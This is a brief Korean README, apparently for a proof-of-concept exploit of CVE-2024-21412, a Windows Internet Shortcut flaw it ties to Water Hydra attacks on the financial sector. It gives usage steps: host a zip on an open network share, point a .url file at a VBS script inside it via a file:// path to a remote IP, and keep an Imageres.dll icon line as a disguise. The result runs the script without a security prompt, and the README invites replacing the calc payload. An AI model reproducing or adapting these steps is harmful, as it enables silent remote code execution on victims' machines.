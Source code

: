 
CVE-2024-21412  
  
배경:  
2023년 말 Water Hydra에서 금융 산업 상대로 URLShorcut 취약점 이용하는 것 확인  
  
목적:  
URL바로가기로 zip 내부 파일까지 다이렉트 접근 가능  
  
사용법:  
1. test.zip파일을 포함한 폴더 공유폴더로 지정(Everyone 접근 가능)
2. testing.url(바로가기) 파일을 메모장으로 오픈
3. URL=file://10.17.214.58/test/test.zip/test.vbs (이부분의 IP를 공유폴더의 아이피로 변경)  
**주의: 해당취약점은 IconFile=C:\Windows\System32\Imageres.dll을 이용해 Cheating이 들어가므로 건들지말것**
4. testing.url 더블클릭해서 계산기 켜지는 것을 확인(변경을 원할 시 vbs스크립트 변경하여 사용)  
  
성공 확인방법  
vbs 실행 알림창 없이 calc가 실행되면 성공 